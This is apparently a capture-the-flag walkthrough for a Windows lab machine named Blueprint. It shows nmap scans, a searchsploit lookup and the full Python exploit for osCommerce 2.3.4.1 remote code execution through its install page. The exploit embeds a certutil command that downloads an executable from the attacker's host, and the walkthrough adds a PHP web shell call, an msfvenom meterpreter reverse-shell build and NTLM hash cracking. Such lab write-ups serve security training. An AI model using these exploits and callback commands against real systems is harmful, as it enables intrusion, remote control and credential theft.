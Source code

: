 ![Untitled 4](https://github.com/user-attachments/assets/f4a88b0c-d800-4671-8a26-60e44b7cbd39)# Blueprint (Easy)

- Note: Do you have what is takes to hack into this Windows Machine?
- Hack into this Windows machine and escalate your privileges to Administrator.

# .Reconnaissance:

- Scan ports in the machine and directories

```bash
nmap -sV -vv -A -T4 <IP-Target>
PORT      STATE SERVICE      REASON          VERSION
80/tcp    open  http         syn-ack ttl 127 Microsoft IIS httpd 7.5
|_http-title: 404 - File or directory not found.
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
135/tcp   open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
139/tcp   open  netbios-ssn  syn-ack ttl 127 Microsoft Windows netbios-ssn
443/tcp   open  ssl/http     syn-ack ttl 127 Apache httpd 2.4.23 (OpenSSL/1.0.2h PHP/5.6.28)
| http-methods: 
|_  Supported Methods: GET HEAD POST
|_http-title: Bad request!
|_http-server-header: Apache/2.4.23 (Win32) OpenSSL/1.0.2h PHP/5.6.28
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|_  http/1.1
| ssl-cert: Subject: commonName=localhost
| Issuer: commonName=localhost
| Public Key type: rsa
| Public Key bits: 1024
| Signature Algorithm: sha1WithRSAEncryption
| Not valid before: 2009-11-10T23:48:47
| Not valid after:  2019-11-08T23:48:47
| MD5:   a0a4:4cc9:9e84:b26f:9e63:9f9e:d229:dee0
| SHA-1: b023:8c54:7a90:5bfa:119c:4e8b:acca:eacf:3649:1ff6
| -----BEGIN CERTIFICATE-----
| MIIBnzCCAQgCCQC1x1LJh4G1AzANBgkqhkiG9w0BAQUFADAUMRIwEAYDVQQDEwls
| b2NhbGhvc3QwHhcNMDkxMTEwMjM0ODQ3WhcNMTkxMTA4MjM0ODQ3WjAUMRIwEAYD
| VQQDEwlsb2NhbGhvc3QwgZ8wDQYJKoZIhvcNAQEBBQADgY0AMIGJAoGBAMEl0yfj
| 7K0Ng2pt51+adRAj4pCdoGOVjx1BmljVnGOMW3OGkHnMw9ajibh1vB6UfHxu463o
| J1wLxgxq+Q8y/rPEehAjBCspKNSq+bMvZhD4p8HNYMRrKFfjZzv3ns1IItw46kgT
| gDpAl1cMRzVGPXFimu5TnWMOZ3ooyaQ0/xntAgMBAAEwDQYJKoZIhvcNAQEFBQAD
| gYEAavHzSWz5umhfb/MnBMa5DL2VNzS+9whmmpsDGEG+uR0kM1W2GQIdVHHJTyFd
| aHXzgVJBQcWTwhp84nvHSiQTDBSaT6cQNQpvag/TaED/SEQpm0VqDFwpfFYuufBL
| vVNbLkKxbK2XwUvu0RxoLdBMC/89HqrZ0ppiONuQ+X2MtxE=
|_-----END CERTIFICATE-----
445/tcp   open  microsoft-ds syn-ack ttl 127 Windows 7 Home Basic 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
3306/tcp  open  mysql        syn-ack ttl 127 MariaDB (unauthorized)
8080/tcp  open  http         syn-ack ttl 127 Apache httpd 2.4.23 (OpenSSL/1.0.2h PHP/5.6.28)
|_http-title: Index of /
| http-methods: 
|   Supported Methods: POST OPTIONS GET HEAD TRACE
|_  Potentially risky methods: TRACE
| http-ls: Volume /
| SIZE  TIME              FILENAME
| -     2019-04-11 22:52  oscommerce-2.3.4/
| -     2019-04-11 22:52  oscommerce-2.3.4/catalog/
| -     2019-04-11 22:52  oscommerce-2.3.4/docs/
|_
49152/tcp open  unknown      syn-ack ttl 127
49153/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
49154/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
49158/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
49159/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
49160/tcp open  unknown      syn-ack ttl 127
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 2008|10|7|8.1|2012|Vista|11 (93%)
OS CPE: cpe:/o:microsoft:windows_server_2008:r2:sp1 cpe:/o:microsoft:windows_10 cpe:/o:microsoft:windows_7::-:ultimate cpe:/o:microsoft:windows_8.1:r1 cpe:/o:microsoft:windows_server_2012:r2 cpe:/o:microsoft:windows_8 cpe:/o:microsoft:windows_vista
OS fingerprint not ideal because: maxTimingRatio (2.608000e+00) is greater than 1.4
Aggressive OS guesses: Microsoft Server 2008 R2 SP1 (93%), Microsoft Windows 10 (91%), Microsoft Windows 10 10586 - 14393 (91%), Microsoft Windows 10 1607 (91%), Microsoft Windows 7 Ultimate (91%), Microsoft Windows 7 or 8.1 R1 or Server 2008 R2 SP1 (91%), Microsoft Windows 10 1511 (91%), Microsoft Windows 7 or 8.1 R1 (91%), Microsoft Windows 8.1 (90%), Microsoft Windows 7 or Windows Server 2008 R2 (89%)
No exact OS matches for host (test conditions non-ideal).
```

```bash
nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse 10.10.25.105 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-07-14 22:53 +07
Nmap scan report for 10.10.25.105
Host is up (0.46s latency).

PORT    STATE SERVICE
445/tcp open  microsoft-ds

Host script results:
| smb-enum-users: 
|   BLUEPRINT\Administrator (RID: 500)
|     Description: Built-in account for administering the computer/domain
|     Flags:       Password does not expire, Normal user account
|   BLUEPRINT\Guest (RID: 501)
|     Description: Built-in account for guest access to the computer/domain
|     Flags:       Password does not expire, Normal user account, Password not required
|   BLUEPRINT\Lab (RID: 1000)
|     Full name:   Steve
|_    Flags:       Normal user account
| smb-enum-shares: 
|   account_used: guest
|   \\10.10.25.105\ADMIN$: 
|     Type: STYPE_DISKTREE_HIDDEN
|     Comment: Remote Admin
|     Anonymous access: <none>
|     Current user access: <none>
|   \\10.10.25.105\C$: 
|     Type: STYPE_DISKTREE_HIDDEN
|     Comment: Default share
|     Anonymous access: <none>
|     Current user access: <none>
|   \\10.10.25.105\IPC$: 
|     Type: STYPE_IPC_HIDDEN
|     Comment: Remote IPC
|     Anonymous access: READ
|     Current user access: READ/WRITE
|   \\10.10.25.105\Users: 
|     Type: STYPE_DISKTREE
|     Comment: 
|     Anonymous access: <none>
|     Current user access: READ
|   \\10.10.25.105\Windows: 
|     Type: STYPE_DISKTREE
|     Comment: 
|     Anonymous access: <none>
|_    Current user access: READ

Nmap done: 1 IP address (1 host up) scanned in 148.20 seconds
```

- We go to port 8080 —> we access into the page oscommerce

![Untitled](https://github.com/user-attachments/assets/b283c953-3de0-4f4e-9c4a-1f62cccd9190)

- We search the vuln by `searchsploit` :

```bash
searchsploit oscommerce 2.3.4
---------------------------------------------------- ---------------------------------
 Exploit Title                                      |  Path
---------------------------------------------------- ---------------------------------
osCommerce 2.3.4 - Multiple Vulnerabilities         | php/webapps/34582.txt
osCommerce 2.3.4.1 - 'currency' SQL Injection       | php/webapps/46328.txt
osCommerce 2.3.4.1 - 'products_id' SQL Injection    | php/webapps/46329.txt
osCommerce 2.3.4.1 - 'reviews_id' SQL Injection     | php/webapps/46330.txt
osCommerce 2.3.4.1 - 'title' Persistent Cross-Site  | php/webapps/49103.txt
osCommerce 2.3.4.1 - Arbitrary File Upload          | php/webapps/43191.py
osCommerce 2.3.4.1 - Remote Code Execution          | php/webapps/44374.py
osCommerce 2.3.4.1 - Remote Code Execution (2)      | php/webapps/50128.py
---------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

- Great! Let check some exploit to find solutions.

![Untitled 1](https://github.com/user-attachments/assets/0983c2fe-bf46-4f97-8d98-ddb065c1f466)

—> Got it! We found the exploit osCommerce and the script exploit was written by Python. Let see inside code.

```bash
# Exploit Title: osCommerce 2.3.4.1 Remote Code Execution
# Date: 29.0.3.2018
# Exploit Author: Simon Scannell - https://scannell-infosec.net <contact@scannell-infosec.net>
# Version: 2.3.4.1, 2.3.4 - Other versions have not been tested but are likely to be vulnerable
# Tested on: Linux, Windows

# If an Admin has not removed the /install/ directory as advised from an osCommerce installation, it is possible
# for an unauthenticated attacker to reinstall the page. The installation of osCommerce does not check if the page
# is already installed and does not attempt to do any authentication. It is possible for an attacker to directly
# execute the "install_4.php" script, which will create the config file for the installation. It is possible to inject
# PHP code into the config file and then simply executing the code by opening it.

import requests

# enter the the target url here, as well as the url to the install.php (Do NOT remove the ?step=4)
base_url = "http://localhost/oscommerce-2.3.4/catalog/"
target_url = "http://localhost/oscommerce-2.3.4/catalog/install/install.php?step=4"

data = {
    'DIR_FS_DOCUMENT_ROOT': './'
}

# the payload will be injected into the configuration file via this code
# '  define(\'DB_DATABASE\', \'' . trim($HTTP_POST_VARS['DB_DATABASE']) . '\');' . "\n" .
# so the format for the exploit will be: '); PAYLOAD; /*

payload = '\');'
payload += '$var=shell_exec("cmd.exe /C certutil -urlcache -split -f http://10.11.75.150:8000/Downloads/shell2.exe shell2.exe");'    # this is where you enter you PHP payload
payload += 'echo $var;'
payload += '/*'

data['DB_DATABASE'] = payload

# exploit it
r = requests.post(url=target_url, data=data)

if r.status_code == 200:
    print("[+] Successfully launched the exploit. Open the following URL to execute your code\n\n" + base_url + "install/includes/configure.php")
else:
    print("[-] Exploit did not execute as planned")

```

- We can insert PHP payload
- First, we can upload shell.php through /config.php to run command.
- Check script shell PHP:
  
![Untitled 2](https://github.com/user-attachments/assets/0dfa18d4-e4c4-4cf0-a6a3-9a320b1d851a)

- We run script payload to upload file shell PHP:

```bash
shell_exec("cmd.exe /C certutil -urlcache -split -f http://<IP_Machine>simple-shell.php simple-shell.exe");
```

- Run `sudo python3 -m http.server` to open server machine.
- We try to run command shell:  `shell.php?cmd=whoami`

![Untitled 3](https://github.com/user-attachments/assets/37d0f670-38af-4019-9898-0e9c5415e13f)

—> We are in Administrator !

- We create the reverse shell by msfvenom and upload it into the page.

```bash
msfvenom -f windows/meterpreter/reverse_tcp lhost=10.11.75.150 lport=4444 -f exe -o shell2.exe
```
![Untitled 4](https://github.com/user-attachments/assets/2f6341a8-11a4-49d0-a1e3-19b80da3eef4)

![Untitled 5](https://github.com/user-attachments/assets/2c144462-8add-4d80-a55c-a9113cc6293b)

- Because netcat is unstable so in this case we will use Metasploit to be stable.
- Run `msfconsole`  use Payload `windows/meterpreter/reverse_tcp`
- In this page osCommerce we run path url: `http://<IP>:8080/oscommerce-2.3.4/catalog/install/includes/simple-shell.php?cmd=shell2.exe`

![Untitled 6](https://github.com/user-attachments/assets/ac1a28fe-c059-4468-8326-95cbfadf7538)

![Untitled 7](https://github.com/user-attachments/assets/f21b895a-e6ea-4a92-880a-c69ca3f0644f)

- Decrypt NTLM hash of user ‘Lab’

![Untitled 8](https://github.com/user-attachments/assets/59affa98-c128-4a44-ab62-7da7982b953f)

END!!!
